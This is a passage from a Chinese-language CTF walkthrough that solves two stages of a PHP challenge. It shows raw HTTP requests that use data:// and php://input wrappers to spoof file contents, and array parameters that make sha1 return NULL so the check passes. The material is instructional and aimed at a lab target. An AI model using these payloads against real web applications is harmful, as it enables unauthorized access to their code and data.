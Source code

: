 下一关是简单的php伪协议。

```php
if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");
```

有三种方式绕：

- php://input 将POST传入的数据全部当做文件内容
- data://text/plain,<?php phpinfo()?>
- data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

选一种顺眼的就好了。注意bp发包post要发个file把get的覆盖掉。

```
POST /1nD3x.php?%64%65%62%75=%61%71%75%61_is_%63%75%74%65%0A&file=data://text/plain,%64%65%62%75_%64%65%62%75_%61%71%75%61 HTTP/1.1
Host: 88734034-7928-4073-b847-9974a354e8f5.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

debu=1&file=1
```

下一关的考点也不是很面生。

```php
if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}
```

sha1函数和md5一样，无法加密数组，强行加密后会返回NULL。

```php
<?php
$a=['a'];
var_dump(sha1($a));
echo NULL===NULL;
//NULL
//1
```

两个数组加密失败都返回NULL，而两个NULL是强等于的，这就可以简单绕过了。

```
POST /1nD3x.php?%64%65%62%75=%61%71%75%61_is_%63%75%74%65%0A&file=data://text/plain,%64%65%62%75_%64%65%62%75_%61%71%75%61&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2 HTTP/1.1
Host: 88734034-7928-4073-b847-9974a354e8f5.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
```